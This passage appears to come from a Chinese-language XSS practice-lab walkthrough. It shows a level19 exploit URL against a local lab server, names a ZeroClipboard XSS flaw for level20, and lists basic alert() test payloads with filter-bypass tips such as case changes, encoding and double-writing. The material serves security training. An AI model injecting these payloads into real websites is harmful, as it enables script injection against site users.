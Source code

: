 同上

# level19

http://192.168.1.104:1235/xss-lab/level19.php?arg01=version&arg02=%3Ca%20href=%22javascript:alert(1)%22%3Exss%3C/a%3E

# level20

ZeroClipboard 跨站脚本漏洞

# 小结

基础测试语句：

`'';!--"<XSS>=&{()}`



`<script>alert(/1/)</script>`

 

`<img scr=1 onerror="alert(/1/)">`

 

`<img src="javascript:alert('1');">`

 

`<a href="javascript:alert(1)"> `

 

绕过：大小写，编码，双写等等。。。。
